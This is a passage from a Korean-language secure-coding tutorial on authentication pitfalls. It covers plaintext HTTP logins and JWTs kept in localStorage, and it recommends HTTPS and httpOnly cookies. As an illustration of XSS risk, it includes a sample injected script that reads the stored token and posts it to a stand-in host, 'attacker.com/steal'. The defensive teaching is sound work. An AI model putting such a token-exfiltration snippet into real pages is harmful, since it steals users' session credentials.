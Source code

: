 ## 보안 고려사항과 함정

### 함정 1: HTTPS 없이 인증 사용

```javascript
// ❌ 절대 이렇게 하면 안 됩니다!
// HTTP로 인증 정보 전송
fetch('http://api.example.com/login', {  // http://
  method: 'POST',
  body: JSON.stringify({
    username: 'alice',
    password: 'secret'
  })
});

// 문제:
// - 모든 데이터가 평문으로 전송됨
// - 중간자 공격(MITM)에 취약
// - 공용 WiFi에서 매우 위험

// ✅ 올바른 방법
fetch('https://api.example.com/login', {  // https://
  method: 'POST',
  body: JSON.stringify({
    username: 'alice',
    password: 'secret'
  })
});
```

### 함정 2: JWT를 localStorage에 저장

```javascript
// ❌ XSS 공격에 취약!
localStorage.setItem('token', jwt);

// 악의적인 스크립트가 주입되면
<script>
  // 토큰 탈취
  const token = localStorage.getItem('token');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: token
  });
</script>

// ✅ 더 안전한 방법들

// 1. httpOnly 쿠키 (서버 코드)
res.cookie('token', jwt, {
  httpOnly: true,     // JavaScript 접근 불가
  secure: true,       // HTTPS만
  sameSite: 'strict'  // CSRF 방어
});

// 2. 메모리에만 저장 (새로고침 시 로그아웃)
let token = null;
function setToken(newToken) {
  token = newToken;
}

// 3. sessionStorage 사용 (탭 닫으면 삭제)
sessionStorage.setItem('token', jwt);
```